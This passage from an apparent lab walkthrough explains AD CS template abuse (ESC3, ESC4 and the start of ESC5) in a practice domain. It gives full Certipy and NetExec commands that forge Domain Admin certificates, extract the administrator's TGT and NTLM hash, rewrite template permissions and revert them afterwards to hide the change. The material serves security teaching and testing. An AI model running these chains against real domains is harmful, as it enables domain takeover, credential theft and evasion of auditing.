We now advance to **ESC3**, a sophisticated vector that differs fundamentally from the direct impersonation of ESC1 or the wildcard permissions of ESC2. While our previous attacks leveraged certificates that acted as direct login tokens, ESC3 is an architectural abuse of the "**`Enrollment Agent`**" role. In a secure PKI hierarchy, the Certificate Authority (CA) designates specific high-trust administrators as Enrollment Agents, individuals authorized to request and sign certificates on behalf of other users, such as for smart card provisioning in a high-security facility. The ESC3 vulnerability exists when a template is misconfigured to allow standard users to enroll and obtain this "Enrollment Agent" capability.

To understand the operational difference between ESC2 and ESC3, we must analyze the specific **Extended Key Usage (EKU)** Object Identifier involved. Where ESC2 relied on the "`Any Purpose`" OID which functions as a skeleton key for *everything* (login, signing, encryption), ESC3 is restricted strictly to the **Certificate Request Agent** OID (`1.3.6.1.4.1.311.20.2.1`). Crucially, a certificate possessing *only* this OID cannot be used to authenticate to a Domain Controller directly. If we presented this certificate to the KDC via PKINIT, it would be rejected because it lacks the "Client Authentication" flag. Therefore, obtaining the ESC3 certificate is not the end of the attack, it is merely the acquisition of a privileged tool required to execute the next phase of the chain.

This forces us into a specific two-stage exploitation path that creates a dependency on a second template. First, we target the vulnerable ESC3 template to acquire a certificate that brands us as a trusted Enrollment Agent. Possession of this digital credential effectively elevates our low-privileged user into a "Digital Notary." Once we hold this certificate, we are authorized to cryptographically countersign Certificate Signing Requests (CSRs) for other identities.

We then leverage this agent certificate against a *different* template that allows "authentication" (like the default "User" template). The CA receives our request for a Domain Admin certificate, sees that it has been validly countersigned by an "Enrollment Agent" (us), and fulfills the request, ignoring the fact that we are not actually the Administrator. This "`On-Behalf-Of`" mechanism is the core of the attack, because we use the ESC3 flaw to steal the badge-maker so we can legitimately print a badge for the CEO using standard office supplies. We will now proceed to demonstrate this multi-step pivoting attack within the lab.

Let’s start by enumerating the CA and find a possible template vulnerable to ESC3.

`certipy-ad find -u 'khal.drogo@essos.local' -p 'horse' -dc-host 'meereen.essos.local' -stdout`





We can confirm with absolute certainty that this enumeration logic is flawless. The workflow depicted in the screenshot accurately isolates the "Enrollment Agent" template, which serves as the requisite "First Link" in the ESC3 exploitation chain. The logic highlighted moves efficiently from access validation to capability identification, which is the standard methodology for assessing PKI vulnerabilities.

Marker **(1)** correctly identifies the primary barrier to entry, which is the Access Control List. By validating that **ESSOS.LOCAL\Domain Users** possesses **Enrollment Rights**, we confirm that our compromised low-privileged user allows us to interface with this template. Without this permission, the specific insecure configurations of the template would be irrelevant to us, so checking permissions first is the correct tactical priority.

Markers **(2)** and **(3)** isolate the unique signature of the ESC3 vulnerability. The combination of the **Enrollment Agent** flag set to True and, more critically, the **Extended Key Usage (EKU)** specifically listing **Certificate Request Agent**, tells us exactly what this certificate authorizes us to do. Unlike ESC1 or ESC2 which allowed for direct logon, this OID (1.3.6.1.4.1.311.20.2.1) authorizes the holder to act as a subordinate registration authority. This confirms that this template is not designed for us to log in, but rather to cryptographically vouch for other users.

It is important to note the nuance here: **Client Authentication** is set to **False**. This is the definitive proof that we are looking at an ESC3-stage-one template. We cannot use the resulting certificate to request a TGT from the Domain Controller, its sole purpose is to sign the "On Behalf Of" request we will create in the next step. Identifying this specific EKU is what triggers the necessity for the two-stage attack path we discussed previously. 
We have successfully found the "Notary Stamp", now we simply need to find the form (the second template) where we will use it to forge the Administrator's signature.

We begin the exploitation chain by interacting with the Certificate Authority to acquire the specific cryptographic tool required for the attack. Since we have identified the ESC3-CRA template as vulnerable due to its "Certificate Request Agent" Extended Key Usage, our objective is to legally enroll in this template using our low-privileged credentials for khal.drogo. We are not yet attempting to spoof the Administrator, instead, we are asking the CA to issue us a certificate that formally recognizes us as an authorized Enrollment Agent, effectively upgrading our user to a position of trust within the PKI hierarchy.

`certipy-ad req -u 'khal.drogo@essos.local' -p 'horse' -target 'braavos.essos.local' -template 'ESC3-CRA' -ca 'ESSOS-CA'`



The output confirms that the Certificate Authority processed our request successfully and issued a valid PFX file for our user. This file, khal.drogo.pfx, is the pivotal artifact for this attack vector. While this certificate cannot be used to authenticate as a domain admin directly, it carries the cryptographic authority to countersign certificate requests for other users, serving as the "Notary Stamp" we will use to forge the next identity.

With the valid agent certificate in hand, we pivot to the actual impersonation phase. We target the standard **User** template, which is typically configured to allow Enrollment Agents to request certificates on behalf of other principals. We construct a new Certificate Signing Request targeting the **`essos\administrator`** account, but crucially, we cryptographically sign this request using the **khal.drogo.pfx** agent certificate we just acquired. 
This instruction tells the CA that we are acting as a legitimate registration authority and verifying the identity of the administrator.

`certipy-ad req -u 'khal.drogo@essos.local' -p 'horse' -target 'braavos.essos.local' -template 'User' -ca 'ESSOS-CA' -on-behalf-of 'essos\administrator' -pfx khal.drogo.pfx`



The CA accepts our agent signature as proof of authorization and issues a new certificate, which we save as administrator.pfx. This result is critical because the Subject inside this new PFX file is explicitly the Domain Administrator. We have successfully utilized the logic of the first certificate to authorize the issuance of the second, converting our agent access into a direct administrative login token.

> The selection of the standard **User** template for the second phase of this attack is a strategic choice dictated by the default permission structure of Active Directory. We utilize this template because it is universally present on Microsoft Certificate Authorities and typically contains the **Client Authentication** Extended Key Usage OID, which is the specific technical requirement needed to perform the PKINIT exchange for a TGT later. Unlike the "Administrator" or "DomainController" templates, which often enforce restrictive ACLs requiring the requester to already possess high privileges or wait for manual manager approval, the default User template generally operates with permissive "Issuance Requirements" that implicitly trust a valid Enrollment Agent's signature. This allows us to use a low-level template to wrap a high-level identity, ensuring our request is processed automatically while still yielding a certificate that grants us full logon rights for the Domain Admin.

We now hold a valid digital identity for the Domain Admin, so we transition from interacting with the Certificate Authority to authenticating against the Domain Controller. We utilize the authentication module to initiate the Kerberos PKINIT exchange, presenting our forged administrator.pfx to the Key Distribution Center. This step effectively trades our X.509 certificate for a Kerberos Ticket Granting Ticket (TGT), allowing us to interact with the domain services natively.

`certipy-ad auth -pfx administrator.pfx -dc-ip '10.4.10.12' `



The output displays the successful retrieval of the Kerberos TGT, which is saved as a credential cache (.ccache) file. Furthermore, the tool automatically extracts the NTLM hash of the Administrator account from the ticket response. This provides us with two distinct avenues for persistence, as we now possess both a renewable ticket for immediate access and the password hash for offline Pass-the-Hash attacks.

To operationalize the access we just secured, we must load the ticket into our local environment variables, instructing our Linux attack tools to look for the Kerberos credentials in the cache file we just generated rather than prompting for a password. Once the environment is primed, we launch NetExec against the Domain Controller (Meereen) to verify that our session has full administrative privileges.

`export KRB5CCNAME=administrator.ccache`
`poetry run netexec smb meereen.essos.local -k --use-kcache`



The final output showing the (Pwn3d!) status alongside the Administrator's username confirms total domain compromise. We have successfully leveraged a misconfigured certificate template to elevate a standard user to a Domain Administrator, proving that we can execute code on the Domain Controller using the identity we forged through the certificate chain.

## **II. Access Control and Object Takeover (ESC4, ESC5, ESC7)**

Sometimes the template itself is secure, but the permission controls protecting the PKI infrastructure are weak. These vectors target the **Access Control Lists (ACLs)** of the Active Directory objects that define the certificate system.

**ESC4 (Vulnerable Template ACLs)** allows us to overwrite the rules of the game. If our user has `GenericWrite` or `WriteDACL` permissions on a specific Template Object, we can maliciously reconfigure it. Even if a template is secure by default, we can modify it to enable the `ENROLLEE_SUPPLIES_SUBJECT` flag (turning it into an ESC1 vulnerability), exploit it to get a Golden Ticket, and then revert the changes to hide our tracks.

**ESC5 (Vulnerable PKI Objects)** and **ESC7 (Vulnerable CA Authority)** attack the infrastructure hierarchy. If we control the computer account of the CA server (ESC5) or have `ManageCA`/`ManageCertificates` rights on the Certification Authority object (ESC7), we possess total control. ESC7 is particularly interesting because we can leverage it to approve our own malicious certificate requests that would normally be held for manual review, or to toggle global settings that turn off security enforcement entirely.

## **ESC4: Template Hijacking - Access Control List Vulnerability and Template Reconfiguration**

We now shift our focus away from the content of the certificate templates to the security structure that governs them. **ESC4** represents a vulnerability class rooted in weak object permissions rather than insecure template configurations. While the previous vectors (ESC1, ESC2, ESC3) relied on finding a template that was already dangerously configured by an administrator, ESC4 allows us to manufacture our own vulnerability by exploiting excessive write privileges on the template object itself within Active Directory. This vector moves us from passive exploitation to active infrastructure modification.

The core of this vulnerability lies in the **Access Control Lists** (`ACLs`) that protect the template objects stored in the LDAP Configuration partition. In a hardened environment, only Enterprise Administrators should have the rights to modify certificate templates. However, in complex or legacy environments, it is common to find standard groups, such as "**Domain Users**" or specific project groups, that have been inadvertently granted **`GenericWrite`**, **`WriteDacl`**, or **`WriteProperty`** permissions on a specific template.

For a Red Team operator, possessing these rights is functionally equivalent to being a PKI administrator for that specific template. We can query the template's configuration, which determines security settings like "**Manager Approval**" or "**Enrollee Supplies Subject**", and simply overwrite them. This effectively allows us to take a perfectly secure, locked-down template and temporarily transform it into an ESC1 vulnerability. We modify the template to disable security checks and enable the `ENROLLEE_SUPPLIES_SUBJECT` flag, turning a harmless "`User`" or "`Machine`" certificate template into a weapon that allows us to request an Administrator certificate.

The operational workflow for ESC4 is arguably the most sensitive in terms of tradecraft because it involves changing the state of the domain infrastructure. We must first identify a template where our compromised user holds these specific write privileges. Once identified, we do not simply attack, we capture the current configuration state to ensure we can restore it later. We then push a reconfiguration update to the Domain Controller via LDAP to weaken the security settings. After we successfully exploit the now-vulnerable template (typically by executing the standard ESC1 spoofing attack), it is mandatory that we revert the template configuration to its original state. Leaving a template in an insecure state creates a persistent high-risk vulnerability that could be detected by defenders auditing configuration changes or exploited by other threat actors, which violates operational stealth requirements.

By mastering ESC4, we prove that even if an organization has patched its servers and configured its templates correctly, a single error in permission delegation on the LDAP object itself is sufficient to compromise the entire PKI trust chain. This attack highlights that in Active Directory, **Control Rights** over an object are just as dangerous as the properties of the object itself.

As usual, let’s start by enumerating our ADCS and find a vulnerable template in our Certificate Authority that fits to our ESC4’s attack. 

`certipy-ad find -u 'khal.drogo@essos.local' -p 'horse' -dc-host 'meereen.essos.local' -stdout`





While in ESC1 and ESC2 we scrutinized the "Configuration Flags" of the template (such as *Client Authentication* or *Any Purpose*), for ESC4 our eyes must drop strictly to the **`Object Control Permissions`** section we’ve highlighted at the bottom of the report.

The "smoking gun" in this  is the presence of our compromised user, **`ESSOS.LOCAL\khal.drogo`**, listed explicitly under **`Full Control Principals`**, **`Write Owner Principals`**, and **`Write Dacl Principals`**. 
This is the definitive operational indicator we are looking for because "Full Control" grants us total authority over the Lightweight Directory Access Protocol (LDAP) object representing this template. It means we have the rights to overwrite every single attribute visible above those permission blocks.

If we look at the top configuration of that template, we’ll notice that **Client Authentication** is set to `False` and **Enrollee Supplies Subject** is `False`. Normally, this would make the template secure and useless for an attack. However, because `khal.drogo` has **Write privileges** over the object, the current configuration is irrelevant, we have the power to fundamentally rewrite the blueprint. We can flip those "False" values to "True" whenever we choose, manufacture our own ESC1 vulnerability on demand, and then revert the changes after we get our certificate to cover our tracks. The vulnerability here is not what the template *is*, but what we are allowed to make it.

Let’s now execute the template modification, converting our theoretical access control vulnerability into a live exploitation path. By leveraging the **GenericWrite** or **WriteDACL** privileges held by **khal.drogo**, we force the Active Directory database to overwrite the secure configuration of the **ESC4** template with parameters we control.

We are using the **`-write-default-configuration`** flag to instruct Certipy to utilize our Write privileges against the **ESC4** template and forcefully overwrite its current attributes with a pre-defined vulnerable dataset.

Rather than manually toggling individual settings, such as separately enabling "Client Authentication" or turning on the "`Enrollee Supplies Subject`" flag, this command acts as an automated macro. 
It pushes a standardized configuration that guarantees the template will be vulnerable to **ESC1** (Subject Alternative Name Spoofing) immediately upon replication. We are essentially replacing the template's secure corporate blueprint with a weaponized version that explicitly permits users to lie about their identity and utilize the resulting certificate for authentication, streamlining the exploit chain from a manual editing process into a single execution.

`certipy-ad template -u 'khal.drogo@essos.local' -p 'horse' -dc-host 'meereen.essos.local' -template 'ESC4' -debug -write-default-configuration`



The output confirms this transition in the lines starting with `Replacing:`. Specifically, the modification of attributes like `msPKI-Certificate-Name-Flag` to **1** is the technical change that enables **`ENROLLEE_SUPPLIES_SUBJECT`**, while adding the `pKIExtendedKeyUsage` OID `1.3.6.1.5.5.7.3.2` ensures the resulting certificate allows for **Client Authentication**. Functionally, we have rewritten the template's logic to behave exactly like an ESC1 vulnerability, granting us the ability to spoof any identity.

A critical aspect of this step is the operational safety captured in the line `Saving current configuration to 'ESC4.json'`. Certipy has automatically backed up the original, secure settings of the template to our local machine. This file is vital for our post-engagement cleanup, as it allows us to restore the template to its benign state once we have secured our administrative persistence, leaving minimal forensic evidence of the reconfiguration.

However, we must temper our immediate next move with an understanding of the Certificate Authority's architecture. While we have updated the blueprint in LDAP on the Domain Controller, the **CA Server (Braavos)** does not constantly watch for these changes in real-time. It pulls template updates on a polling cycle. Therefore, there may be a propagation delay ranging from a few seconds to several minutes before the CA actually acknowledges our "New" insecure version of the template. If we attempt to request the certificate too quickly and fail, it is likely because Braavos is still enforcing the old, secure rules cached in its memory.

If we enumerate this same ESC4 template once again. We’ll be looking at the direct result of our write operation against the Active Directory schema, confirming that we have successfully transformed a previously benign template into a fully weaponized **ESC1** vulnerability.

`certipy-ad find -u 'khal.drogo@essos.local' -p 'horse' -dc-host 'meereen.essos.local' -stdout`



The data points highlighted tell the story of this transformation. Marker **(1)** and **(2)** confirm that we successfully injected the **Client Authentication** Extended Key Usage (EKU) into the template. Prior to our manipulation, this template likely lacked this capability or was restricted to less sensitive functions, now, it explicitly authorizes the holder to perform PKINIT authentications against the Domain Controller. This is the functionality switch that turns a simple piece of data into a valid logon token.

While not explicitly boxed in red, the line immediately below "Any Purpose" is arguably the most critical change: **Enrollee Supplies Subject : True**. This validates that our configuration update successfully flipped the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` bit. By combining this flag with the Client Authentication EKU we just verified, we have mechanically reconstructed the **ESC1** exploit conditions manually. The template now permits us to supply a Subject Alternative Name (SAN) in our request, allowing us to spoof any user in the domain.

Marker **(3)** reaffirms our **Access Control** dominance over the object. Seeing that **ESSOS.LOCAL\Authenticated Users** (or our specific user/group) possesses **Full Control** and **Write** permissions confirms not only why the attack worked but also that we retain the ability to sanitize the environment. We still own the object, which means after we extract our loot, we have the necessary rights to reverse these settings and restore the template to its original secure state. We have effectively cleared the path to execute the standard ESC1 exploitation loop, Request, Retrieve, Authenticate, using a vulnerability we manufactured ourselves.

Because our previous modification command effectively transformed the target template into an **ESC1** vulnerability by enabling the "`Enrollee Supplies Subject`" flag, we can now exploit it using the standard subject-spoofing methodology. In this step, we instruct Certipy to request a certificate using the **khal.drogo** credentials, but crucially, we specified the **User Principal Name (UPN)** of **administrator@essos.local** in the arguments.

`certipy-ad req -u 'khal.drogo@essos.local' -p 'horse' -target 'braavos.essos.local' -template 'ESC4' -ca 'ESSOS-CA' -upn 'administrator@essos.local'`



The output validates that the Certificate Authority (Braavos) processed the request according to our newly applied insecure configuration. It ignored the mismatch between the requester (Khal Drogo) and the subject (Administrator) and issued a valid certificate. The resulting **`administrator.pfx`** file contains the private key and signed certificate for the Domain Admin account.

From a functional standpoint, we have just created a backdoor into the domain's highest privilege tier. We can now take this PFX file and authenticate to the Domain Controller via PKINIT to retrieve a Ticket Granting Ticket (TGT), granting us instant administrative access.

We have successfully successfully subverted the certificate infrastructure to obtain a valid identity document for the Domain Administrator. However, this PFX file is merely a static artifact until we exchange it for a live session capability. We now transition to the **Authentication Phase**, where we leverage the Kerberos **PKINIT** protocol to convert our forged certificate into a usable Ticket Granting Ticket (TGT). By directing Certipy to authenticate against the Domain Controller (**Meereen**), we initiate a cryptographic handshake where the KDC validates the digital signature applied by the Certificate Authority.

Because we successfully manipulated the **ESC4** template to include the **Client Authentication** EKU before we made our request, the Domain Controller accepts our certificate as a valid smart card logon. The KDC does not know that the template was temporarily insecure; it only sees a cryptographically valid chain of trust stemming from the Essos Root CA. Consequently, it issues a TGT for the **Administrator** account, which Certipy saves locally as a credential cache (`.ccache`) file. Simultaneously, the tool extracts the administrator's **NTLM hash** from the PAC (Privilege Attribute Certificate) data returned in the AS-REP, granting us a permanent fallback credential for Pass-the-Hash attacks even if the certificate expires.

This command represents the moment of total compromise. Once we possess the TGT, we have effectively become the Domain Admin. We can verify this access immediately by loading the ccache into our environment variables and executing administrative tasks against the Domain Controller, completing the full kill chain from template reconfiguration to absolute domain dominance.

`certipy-ad auth -pfx administrator.pfx -dc-ip '10.4.10.12'`



We can confirm now that we were able to explore the ESC4 misconfiguration and get Administrator NTLM hash as well. We now have 2 options to confirm our authentication. 
We can simply use the NTLM hash or use the generated .ccache by importing it into our current session and once imported, we can use NetExec to simply confirm that we are able to authenticate as Administrator inside ESSOS domain.

`poetry run netexec smb meereen.essos.local -k --use-kcache`



As we can see on the screenshot above, besides being able to see the Green Plus sign `[+]`, that means that we have successfully logged in, we can also confirm that we are Domain Admin by checking the (Pwn3d!) from our output.

**Operational Criticality: Cleanup**
Unlike ESC1 or ESC8, this attack involved actively changing the domain's configuration objects in the LDAP database. Leaving this template in its current weaponized state is a massive operational risk that could trigger security audits or allow other actors to escalate privileges. Once we have secured our TGT or persistence mechanism, we must immediately utilize the `ESC4.json` configuration file created earlier to revert the template to its original, secure state using the `-write-configuration` and `-no-save` flags in Certipy, effectively erasing the evidence of our infrastructure modification.

`certipy-ad template -u 'khal.drogo@essos.local' -p 'horse' -dc-host 'meereen.essos.local' -template 'ESC4' -write-configuration 'ESC4.json' -no-save`

## **ESC5: Vulnerable PKI Object Access Control - Golden Certificate**

**ESC5**. While the previous exploits focused on manipulating individual certificate templates, the "blueprints" of issuance, ESC5 identifies critical weaknesses in the Access Control Lists (ACLs) that govern the PKI architecture itself. This vector relies on the premise that the security of the entire certificate system is only as strong as the permissions on the logical containers and physical hosts that support it. In essence, instead of trying to forge a fake ID at the DMV window, we are attacking the building management system to gain ownership of the ID printing machine.

The successful execution of an ESC5 attack is strictly dependent on finding specific permission misalignments within the **Active Directory Configuration Partition**. We are hunting for high-impact privileges such as **GenericAll**, **WriteDacl**, **WriteOwner**, or **GenericWrite**. If our low-privileged user (or a group they belong to) holds these rights over critical PKI objects, the Chain of Trust effectively collapses. The specific targets for this abuse are the **Certificate Authority Computer Object** (e.g., the server Braavos), the **Enrollment Services** container, or most dangerously, the **NTAuthCertificates** object, which defines exactly which CAs the Domain Controllers trust for authentication.

When we identify that we possess administrative control over the CA server’s computer object, our tactical objective shifts from simple lateral movement to total cryptographic dominance via the **Golden Certificate**. 
By leveraging our write access to the computer object, we can compromise the host using methods like Shadow Credentials or Resource-Based Constrained Delegation to gain a system shell. Once we control the CA server, we can extract the **Certificate Authority's Private Key**, often found in software format as a `.pfx` or within the host's DPAPI-protected store. Possessing this private key is the ultimate victory condition because it allows us to move our operations offline. With this key, we can cryptographically sign our own certificates for any user in the domain, including the Enterprise Admin setting validity periods of 10 or 20 years. 
When these forged certificates are presented to a Domain Controller via PKINIT, they are accepted as valid because they bear the mathematical signature of the trusted Root CA, effectively granting us a persistence mechanism that survives password changes and rotation policies.

Alternatively, if our access is limited to the LDAP objects rather than the server hardware, we can execute a **Rogue CA Injection**. If we have write access to the `CN=NTAuthCertificates` container, we do not need to steal the existing private key, we can simply generate a malicious Self-Signed CA on our attack machine and inject its public certificate into this trusted container. Active Directory automatically propagates this change to every Domain Controller in the forest. Once replication occurs, the KDC will recognize our rogue CA as a trusted issuer. This allows us to mint and sign certificates on our Kali machine that the Domain Controller will honor for authentication, effectively backdooring the entire forest's authentication logic without ever touching the legitimate CA server. Both variations of ESC5 demonstrate that in a mature environment, the physical security of the CA server and the logical security of the Configuration partition are the literal keys to the kingdom.

We enter this phase with the premise that our previous operation attack or an NTLM relay to the server's local administrator have successfully granted us administrative control over **Braavos (Certificate Authority Server - 10.4.10.23)**. In an Active Directory engagement, compromising the server hosting the Enterprise Certificate Authority is the strategic equivalent of capturing the realm's mint. We are no longer bound by the rules of certificate templates or the oversight of the issuance process. By possessing the CA server, we can extract the root cryptographic material required to generate our own identities offline.

The technique we are demonstrating is the **Golden Certificate**. This attack differs fundamentally from previous vectors because we are not asking the CA to sign a request, we are stealing the CA's ability to sign. The primary asset we target is the **CA Private Key**. This key acts as the root of trust for the entire PKI hierarchy. Any certificate signed by this key is implicitly trusted by the Domain Controllers for authentication (PKINIT), code signing, and SSL/TLS interception. Crucially, certificates we forge with this key are not recorded in the CA's internal database logs, making the attack nearly invisible to standard auditing tools that only monitor active requests.

We can use our so beloved tool NetExec to enumerate and confirm that Braavos is our Certificate Authority Server.

`poetry run netexec ldap meereen.essos.local -u 'khal.drogo' -p 'horse' -M adcs`



We do have the confirmation that inside ESSOS domain, we have an ADCS configured on **`braavos.essos.local`** and our user **`khal.drogo`** has been also pointed as an admin inside this machine, which means that we have full privileges over our **Certificate Authority**.

`poetry run netexec smb braavos.essos.local -u 'khal.drogo' -p 'horse'`



The right conditions needed to exploit ESC5. To execute this, we utilize the **`ca`** module within **Certipy**. This module automates the backup of the Certificate Authority's key material using the remote procedure calls available to local administrators. We point the tool at **Braavos**, specifying the CA Name we identified during our enumeration phase (**`ESSOS-CA`**). Our goal is to retrieve the **.pfx** file that contains the private key.

`certipy-ad ca -backup -u 'khal.drogo@essos.local' -p 'horse' -dc-host 'braavos.essos.local' -ca 'ESSOS-CA' -target 'braavos.essos.local' -debug`

